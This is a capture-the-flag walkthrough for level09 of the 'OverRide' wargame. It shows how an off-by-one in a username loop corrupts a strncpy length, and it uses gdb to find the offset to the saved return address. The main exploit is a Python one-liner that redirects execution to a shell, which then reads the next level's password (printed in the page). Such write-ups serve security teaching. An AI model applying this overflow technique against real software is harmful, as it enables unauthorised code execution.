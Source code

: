 # Walkthrough level09

We try to run the program:  

```bash
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: name
>: Welcome, name
>: Msg @Unix-Dude
>>: message
>: Msg sent!
```

With the code we can see that we do a strncpy with a value contained in a variable.

```c
 strncpy(*buffer, msg, (int) *(*buffer + 180));
```

We must write a value at *buffer + 180. To do this, we can see that we can write 40 char. The difficulty is to identify that we can write 41 char instead of 40, because of 'i' must be <= 40.
Buffer[40] is the 41th char.  

```c
while (i <= 40 && username[i]) {
  (*buffer)[140 + i] = username[i];
  i++;
 }
```

Now we try to override the value at buffer[180]:

```bash
r < <(python -c 'print("a" * 41)'; python -c 'print("b" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])')

--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 17, 0x000055555555491f in handle_msg ()
(gdb) x/xw $rbp-0xc
0x7fffffffe5c4: 0x00000061

```

We can see the value is 0x61 and we have write 97 char. (0x61 = 97):  

```bash
(gdb) x/64xg $rbp-0xc0
0x7fffffffe510: 0x6262626262626262 0x6262626262626262
0x7fffffffe520: 0x6262626262626262 0x6262626262626262
0x7fffffffe530: 0x6262626262626262 0x6262626262626262
0x7fffffffe540: 0x6262626262626262 0x6262626262626262
0x7fffffffe550: 0x6262626262626262 0x6262626262626262
0x7fffffffe560: 0x6262626262626262 0x6262626262626262
0x7fffffffe570: 0x0000000000000062 0x0000555555554c10
```

So we want to override this variable to write on saved RIP. We search the offset.  

```bash
(gdb) i f
Stack level 0, frame at 0x7fffffffe5e0:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5f0
 Arglist at 0x7fffffffe5d0, args: 
 Locals at 0x7fffffffe5d0, Previous frame's sp is 0x7fffffffe5e0
 Saved registers:
  rbp at 0x7fffffffe5d0, [rip at 0x7fffffffe5d8]

(gdb) p 0x7fffffffe5d8 - 0x7fffffffe510
$4 = 200
```

Lets exploit this:

```bash
level09@OverRide:~$ (python -c 'print("\xff" * 41)'; python -c 'print("b" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])'; cat -) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
level09@OverRide:~$ su end
Password: 

end@OverRide:~$ cat end 
GG !
```
